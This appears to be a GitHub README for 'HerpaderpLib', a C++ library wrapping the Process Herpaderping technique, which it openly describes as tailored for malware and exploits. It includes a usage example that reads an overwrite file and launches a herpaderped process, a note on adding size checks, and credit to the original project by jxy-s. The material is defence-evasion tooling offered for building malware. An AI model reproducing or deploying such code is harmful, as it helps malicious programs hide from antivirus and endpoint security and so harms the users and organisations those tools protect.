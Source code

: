 
# HerpaderpLib

An Easy To Use Process Herpaderping Library Tailored For Malware & Exploits.

## Example

```cpp
    LPCWSTR sourceFileName = argv[1];
    LPCWSTR targetFileName = argv[2];
    LPCWSTR overwriteFileName = argv[3];

    if (!sourceFileName || !targetFileName || !overwriteFileName) {
        printf("[*] Usage: Herpaderp.exe <SOURCE_FILE> <TARGET_FILE> <OVERWRITE_FILE>\n");
        return -1;
    }

    HANDLE overwriteFile = CreateFileW(
        overwriteFileName,
        GENERIC_READ,
        FILE_SHARE_READ,
        0,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        0
    );

    DWORD bufferSize;
    auto buffer = herpaderp::readFile(overwriteFile, bufferSize);

    if (!buffer || bufferSize == 0)
        printf("[-] Failed To Read Overwrite File.\n");
    else
        printf("[+] Read Overwrite File.\n");

    auto resInfo = herpaderp::herpaderp(
        sourceFileName, // sourceFileName
        targetFileName, // targetFileName
        NtCurrentProcess, // parentProcess
        (PBYTE)buffer, // overwriteBuffer
        bufferSize // overwriteBufferSize
    );

    if (herpaderp::succeeded(resInfo))
        printf("[+] Process Herpaderped!, Process PID: %ld\n", GetProcessId(resInfo.process));
  
    free(buffer); // buffer is allocated by malloc, don't forget to free it, You can change this to use a unique pointer instead.
```

## Notes
You may need to add size checks to ``herpaderp::overwriteWithBuffer``, Depending on your needs (OverwriteFileSize < TargetFileSize).


## Credits

[Process Herpaderping](https://github.com/jxy-s/herpaderping) by [jxy-s](https://github.com/jxy-s), I just basically simplified his implementation and made it operate like a library instead, So It can be included in any of your projects easily without worrying about dependencies.
